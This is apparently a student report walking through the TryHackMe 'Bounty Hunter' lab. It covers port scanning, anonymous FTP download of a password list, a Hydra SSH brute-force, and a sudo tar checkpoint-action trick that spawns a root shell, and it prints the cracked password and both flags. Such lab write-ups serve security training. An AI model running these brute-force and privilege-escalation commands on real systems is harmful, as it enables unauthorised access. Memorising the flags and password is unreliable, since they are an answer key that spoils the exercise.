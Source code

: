 ```yaml
---
Title: SWS101 report8
categories: [SWS101, report8]
tags: [SWS101]
---
```


# TryHackMe - Bounty Hunter
You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!
![alt text](../assets/9ad38a2cc31d6ae0030c888aca7fe646.jpeg)

### Task 1: Living up to the title

Step 1: Deploy the Machine
Deploy the machine from Try Hack Me and ensure it is up and running.

Step 2: Scan the Target with RustScan
RustScan is a fast port scanner that integrates with Nmap to provide detailed service information. We use RustScan to quickly identify open ports and then leverage Nmap for detailed analysis.

Install RustScan
If RustScan is not already installed, download and install it from GitHub - RustScan.

Scan the Target
Execute the following RustScan command to identify open ports:

    rustscan -a 10.10.193.152 -u 5000 -- -sV -A -oN rustscan_output.txt
    -a: Specifies the target IP address.
    -u: Sets the number of parallel connections (higher values increase scan speed).
    --: Passes additional options to Nmap.
    -sV: Enables version detection.
    -A: Enables OS detection, version detection, script scanning, and traceroute.
    -oN: Outputs results to a file in normal format.

Step 3: Analyzing Scan Results
From the scan results, identify open ports and running services. Based on the example provided:

    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)

### Task 2: Enumeration of Services
FTP Service (Port 21)
Check for Anonymous Login
Use Nmap’s script to check if anonymous login is allowed:

    nmap -p 21 --script=ftp-anon 10.10.193.152
Connect to FTP Server
If anonymous login is allowed, connect using:

    ftp 10.10.193.152
Login with anonymous as the username and any email as the password.
Download Files
List files and download them using mget:

    ftp> ls
    ftp> mget *
Exit the FTP session after downloading.

Analyze Downloaded Files
Check the contents of the downloaded files:

    cat tasks.txt
    cat locks.txt
tasks.txt reveals the user lin wrote the task list.
locks.txt contains potential passwords for brute-forcing.

Questions and Answers
Who wrote the task list?
    lin

What service can you bruteforce with the text file found?
    SSH

SSH Service (Port 22)
Brute Force SSH Login
Use Hydra to brute-force SSH login:

    hydra -l lin -P locks.txt ssh://10.10.193.152
    -l: Specifies the username.
    -P: Specifies the password list.
Successful Login
Hydra output will reveal the correct password:

What is the user’s password?
    RedDr4gonSynd1cat3
SSH into the System
Use the discovered credentials to login:

    ssh lin@10.10.193.152
Enter the password: RedDr4gonSynd1cat3

User Flag
List the files in the home directory and capture the user flag:

    ls
    cat user.txt

User Flag:
    THM{CR1M3_SyNd1C4T3}

### Task 3: Privilege Escalation
Check for Sudo Permissions
Check which commands lin can run with sudo:

    sudo -l
Output indicates lin can run tar with sudo.

Exploit Tar Binary
Refer to GTFOBins for privilege escalation using tar.

Run Exploit
Execute the following command to escalate privileges:

    sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
This will spawn a root shell.
Root Flag
Once root access is gained, capture the root flag:

    whoami
    cat /root/root.txt

Root Flag:
    THM{80UN7Y_h4cK3r}

Conclusion
Following these steps, we successfully exploited the machine, gaining user and root access, and retrieved both flags. This exercise demonstrated the importance of thorough enumeration, service analysis, and privilege escalation techniques.